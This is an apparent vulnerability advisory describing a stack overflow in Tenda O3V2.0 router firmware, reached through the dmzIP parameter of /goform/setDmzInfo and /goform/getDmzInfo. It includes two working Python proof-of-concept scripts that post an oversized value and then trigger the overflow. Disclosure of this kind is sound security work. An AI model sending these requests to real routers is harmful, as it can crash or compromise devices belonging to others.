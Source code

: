 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dmzIP` POST parameter accepted by `/goform/setDmzInfo` is written to the configuration key `wan1.dmzip` or `wan5.dmzip`  via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDmzInfo`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle`wan1.dmzip` or `wan5.dmzip`.

## Technical details

- The `setDmzInfo` endpoint accepts a POST parameter `dmzIP` and calls `SetValue("wan1.dmzip", V7)` or ` SetValue("wan5.dmzip", V7)` without enforcing a maximum length.


![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121650.png)

- The `getDmzInfo` endpoint retrieves the `dmzIP` parameter using `GetValue("wan1.dmzip", v11)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_121458.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `wan1.dmzip` or `wan5.dmzip` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDmzInfo"
payload =  b"a"*1000

data = {"dmzIP":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDmzInfo"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)

